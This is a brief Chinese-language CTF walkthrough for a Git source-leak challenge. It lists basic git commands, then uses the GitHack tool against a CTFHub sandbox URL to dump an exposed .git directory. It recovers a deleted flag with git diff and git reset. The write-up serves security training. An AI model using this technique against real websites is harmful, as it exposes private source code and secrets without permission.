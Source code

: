 
**常用命令**

```bash
git log 显示从最近到最远的提交日志。
git diff 简单的来说就是查看不同，具体用法如下：
1. git diff：是查看working tree与index的差别的。
2. git diff --cached：是查看index与repository的差别的。
3. git diff HEAD：是查看working tree和repository的差别的。其中：HEAD代表的是最近的一次commit的信息。
git reset 可用于回退版本库
```

**解题思路**

```bash
# 下载githack工具
proxychains4 git clone https://github.com/BugScanTeam/GitHack
python GitHack.py http://challenge-b204568bb7d6e137.sandbox.ctfhub.com:10080/git/
cd /dict/文件夹
```

```bash
# 说明当前所处版本外remove flag，但flag在之前上一个add flag版本
git log
```
![](./img/git1.png)

方法一：
```bash
git diff 3597
git diff HEAD^
```

方法二：
```bash
git reset --hard 3597
git reset --hard HEAD^
```
